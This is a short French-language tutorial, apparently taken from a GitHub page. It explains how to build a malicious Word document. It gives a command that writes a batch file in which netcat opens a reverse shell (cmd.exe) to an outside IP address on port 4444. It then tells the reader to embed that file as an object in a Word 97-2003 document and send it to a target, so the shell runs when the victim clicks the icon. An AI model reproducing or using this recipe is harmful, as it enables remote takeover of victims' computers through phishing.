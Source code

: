 Cree un fichier

```c
echo START cmd.exe /c nc.exe 192.168.45.128 4444 -e cmd.exe > lauch.bat
```

Creer un document word et aller dans: 
**`Insertion -> Objet -> Cree a partir du fichier`**

Puis selection le fichier `lauch.bat`

Enregistrons le en tant que modèle **`Document Word 97-2003`**

Envoyer a la cible a l'ouverture du document et au clique sur l'icone, le fichier sera executer


